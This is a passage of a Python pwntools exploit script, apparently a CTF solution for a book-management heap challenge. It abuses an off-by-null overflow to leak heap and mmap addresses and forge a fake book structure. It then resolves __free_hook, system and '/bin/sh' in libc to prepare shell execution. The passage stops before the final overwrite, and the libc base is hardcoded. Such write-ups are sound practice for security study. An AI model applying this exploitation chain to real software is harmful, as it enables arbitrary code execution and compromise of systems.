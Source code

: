 ```python
p.recvuntil("Enter author name: ")
p.sendline("a" * 32)
time.sleep(1)
log.info("Off-BY-NULL!")
time.sleep(1)
p.recvuntil("> ")
create(10, "book1_name", 200, "book1_desc")
create(0x21000, "book2_name", 0x21000, "book2_desc")
p.recvuntil("> ")
time.sleep(1)
log.info("Leaking book_1's address...")
time.sleep(1)
p.sendline("4")
p.recvuntil("Author: ")
p.recv(32)
book1_addr = u64(p.recv(6) + '\x00\x00')
log.success("Book1_addr : 0x%x" % book1_addr)
time.sleep(1)
log.info("Calculating book_2's address...")
time.sleep(1)
book2_addr = book1_addr + 0x30
log.success("Book2_addr : 0x%x" % book2_addr)
time.sleep(1)
p.recvuntil("> ")
time.sleep(1)
log.info("Prepare to construct a fake book...")
payload = 'a' * 0x70 + p64(1) + p64(book2_addr + 8) + p64(book2_addr + 8) + p64(0xffff)
edit(1, payload)
time.sleep(1)
log.success("Fake book constructed! And two pointers were set to book2.")
time.sleep(1)
p.recvuntil("> ")
log.info("Off-BY-NULL again! Now Book1 was set to the fake book.")
p.sendline("5")
p.recvuntil("Enter author name: ")
p.sendline('a' * 32)
p.recvuntil("> ")
time.sleep(1)
log.info("Leaking mmap address...")
time.sleep(1)
p.sendline("4")
p.recvuntil("Name: ")
mmap_addr = u64(p.recv(6) + '\x00\x00')
time.sleep(1)
log.success("Mmap address : 0x%x" % mmap_addr)
time.sleep(1)
p.recvuntil("> ")
time.sleep(1)
log.info("Calculating libc's base")
time.sleep(1)
libc_addr = 0x7ffff79e4000   # Change it if doesn't work!
time.sleep(1)
log.success("Libc's addr : 0x%x" % libc_addr)
time.sleep(1)
log.info("Searching __free_hook & system & /bin/sh in libc...")
free_hook = libc.symbols["__free_hook"] + libc_addr
system = libc.symbols["system"] + libc_addr
binsh = libc.search("/bin/sh").next() + libc_addr
time.sleep(1)
log.success("__free_hook address: 0x%x" % free_hook)
log.success("system address: 0x%x" % system)
log.success("/bin/sh address: 0x%x" % binsh)
time.sleep(1)
```